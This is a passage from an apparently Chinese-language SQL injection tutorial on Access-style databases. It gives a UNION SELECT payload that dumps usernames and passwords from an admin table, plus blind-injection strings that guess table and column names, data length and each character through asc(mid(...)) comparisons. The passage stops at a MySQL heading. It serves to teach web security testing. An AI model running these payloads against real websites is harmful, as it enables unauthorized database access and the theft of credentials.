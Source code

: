 ![](http://image.ixysec.com/image/sql/sql009.png)

爆出所有用户
```
UNION SELECT top 1 1,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from admin where not id=1
```

**逐字猜解法(盲注)**
注入检测
同上面的方法一样

猜表名
```
and exists (select * from 表名)
```
![](http://image.ixysec.com/image/sql/sql010.png)

![](http://image.ixysec.com/image/sql/sql011.png)

猜列名
```
and exists (select 列名 from 表名)
```
![](http://image.ixysec.com/image/sql/sql012.png)

获取数据长度
```
and (select top 1 len(列名) from 表名)>5
```
and (select top 1 len(password) from admin)>16//错误
and (select top 1 len(password) from admin)>15//正常
说明password字段内容的长度是16

获取指定位数的数据
```
and (select top 1 asc(mid(列名,位置,1)) from 表名)>=97
```
mid(字符串,截取的位置,截取字符数)
asc(） //将字符转换成ascii码  方便进行比较

and (select top 1 asc(mid(admin,1,1)) from admin)>96//判断admin字段的内容第一位的ascii码值大于96   正常

![](http://image.ixysec.com/image/sql/sql013.png)

and (select top 1 asc(mid(admin,1,1)) from admin)>97//判断admin字段的内容第一位的ascii码值大于97   错误 说明就是97

![](http://image.ixysec.com/image/sql/sql014.png)

依次猜解其他位数

盲注的核心
盲注的核心其实是用字符串截取函数一位一位的截取数据，之后把截取到的数据用字符转ascii函数转换成ascii码和数字进行对比，之后将ascii码还原成字符。

#### MySQL注入
MySQL数据库结构
